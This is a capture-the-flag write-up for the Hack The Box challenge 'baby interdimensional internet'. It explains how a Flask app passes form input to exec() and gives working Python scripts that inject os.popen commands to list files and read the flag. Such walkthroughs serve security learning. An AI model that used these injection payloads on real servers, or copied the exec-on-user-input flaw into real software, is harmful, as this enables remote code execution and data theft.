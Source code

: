 <h1 style="text-align:center;">baby interdimensional internet</h1>
*aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez*

## Looking around
When we visit the website in a browser:
![image|center|250](../../img/Pasted%20image%2020230509085339.png)

There is a number that seems to change everytime we refresh the page. First thing we are going to do is look at the source.
![](../../img/Pasted%20image%2020230509090355.png)
We can see there is a hint for a `debug` page where we find the source for the challenge (or we can use `gobuster` to discover endpoints)

## Challenge source code
```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

## Methodology
Here we see a simple `flash` webapp. We see we can perform a `GET` and `POST` request on `/` endpoint and `GET` on `debug`. When we perform a `POST` on `/` we eventually hit this part of the code.
```python
if request.method == 'POST':
        ingredient = request.form.get('ingredient', '')
        recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

In this part of the code we can influence how to `recipe` string is going to look like. This string is later going to be used as a parameter for method `calc()`.
```python
calc(recipe)
```

This method provides an attack vector that we are going to exploit.
```python
def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass
```

This is a very simple exploit. Here we can see, method `exec()` direcly executes python code that we provided in `recipe` variable. This is going to win us a challenge.

## Standard behaviour
When we visit the page we are implicitly using the `GET` request on `/`. Therefor we dont visit the if branch with the `POST` but we visit this part of the code.
```python
ingredient = ''.join(choice(lowercase) for _ in range(10))
recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
```

Here `recipe` is assembled automatically using random values. Example:
```python
'msplmeeabc = 12-65'
```

This gets sent to the `calc()` method. Here the `exec()` would look like this.
```python
try: exec('msplmeeabc = 12-65', garage)
```

This gets executed internally and we can see there is a `garage` parameter which is a global variable therefore accessable in the whole script. `garage` is a dictionary that holds all the references to variables in the execute contents. In our case, it would hold an item (beside other implicit values).
```python
{'msplmeeabc' = -53}
```

Back to the `federation()` method.
```python
if garage.get(ingredient, ''):
	return render_template('index.html', calculations=garage[ingredient])
```

Here we extract the value from the `ingredient` variable and send it to the template to be rendered as the number we see on the screen. After the substitution the code would look like this.
```python
if garage.get('msplmeeabc', ''):
	return render_template('index.html', calculations=garage['msplmeeabc'])
```

## Exploit
We can send a `POST` request to craft our own recipe. When we do that we are accessing this part of the code.
```python
if request.method == 'POST':
	ingredient = request.form.get('ingredient', '')
	recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

From above we can see, that the webapp extracts values of variables `ingredient` and `measurements` from request body. We can try to sen a `POST` request containing those variables in the body, and potentialy assemble our malicious `recipe`.
As an example we can start lightly to confirm we can control the `recipe`. An example `POST` body would look like this.
```json
{
 "ingredient": "our_var",
 "measurements": "1111"
}
```

The `recipe` would look like this.
```python
'our_var = 1111'
```

We are going to use python `requests` module to send our request.
```python
#!/usr/bin/python3 
import requests 

data = {'ingredient': 'our_var', 'measurements': '1111'}
addr = 'http://178.128.46.49:31289'
r = requests.post(addr, data=data)

print(r.content)
```

In the response we see our number 1111, meaning we can successfully control the `exec()` statement.
```html
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>1111</h1>
```

As for the exploit, we can import the `os` module and have RCE on the server.
```python
#!/usr/bin/python3 
import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("ls").read()'}
addr = 'http://178.128.46.49:31289'
r = requests.post(addr, data=data)

print(r.content)
```

The `exec` would look like this.
```python
try: exec('our_var = __import__("os").popen("ls").read()', garage)
```

We are going to list the items in the webapp.
```html
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'>app.py\nflag\ntemplates\n</h1>
```

We see there is a file named flag which contains the challenge secret.

## Final exploit code
```python
#!/usr/bin/python3    
import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("cat flag").read()'}
addr = 'http://178.128.46.49:31289'
r = requests.post(addr, data=data)

print(r.content)
```

## Flag
*HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}*
